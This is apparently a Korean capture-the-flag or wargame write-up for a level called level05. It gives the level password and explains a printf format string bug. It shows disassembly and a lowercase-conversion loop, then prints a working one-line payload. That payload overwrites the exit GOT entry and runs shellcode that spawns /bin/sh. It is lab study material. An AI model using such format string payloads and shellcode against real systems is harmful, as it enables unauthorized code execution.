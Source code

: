 > Password: 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN

사용자의 입력을 다시 그대로 echo 해주는 프로그램이다.

```
$ ./level05
abcd
abcd
```

이번 프로그램도 printf의 첫 인자로 유저의 입력을 그대로 받는 부분이 있어서 원하는 곳에 값을 쓰거나 읽는 취약점이 존재한다.

또한 main 함수의 맨 마지막 위치에 ret대신 exit을 하도록 되어있어서 exit의 got를 조작했다.

```
8048500:	8d 44 24 28          	lea    0x28(%esp),%eax
8048504:	89 04 24             	mov    %eax,(%esp)
8048507:	e8 34 fe ff ff       	call   8048340 <printf@plt>
804850c:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
8048513:	e8 58 fe ff ff       	call   8048370 <exit@plt>
```

프로그램 실행 도중에 사용자의 입력에서 대문자를 소문자로 변환하는 코드가 있는데

```c
for (int i = 0; i < strlen(s); i++) {
  if (is_upper(s[i])) {
    s[i] = to_lower(s[i]);
  }
}
```

쉘코드의 대부분은 문제가 없지만 0x50 (push %eax)가 0x70으로 바뀌는 문제가 있어서 그것을 방지하기 위해 0x50을 0x6a 0x00 (push 0)으로 대체했다.

```bash
cat <(echo -ne '\xe0\x97\x04\x08....\xe2\x97\x04\x08%.0s%.0s%.0s%.0s%.0s%.0s%.0s%.0s%54947d%hn%10576d%hn\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x6a\x00\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80') - | ./level05
```

입력 길이의 제한이 있어서 got를 1바이트씩 쓰는 대신 2바이트씩 써서 입력의 길이를 최대한 줄였다.
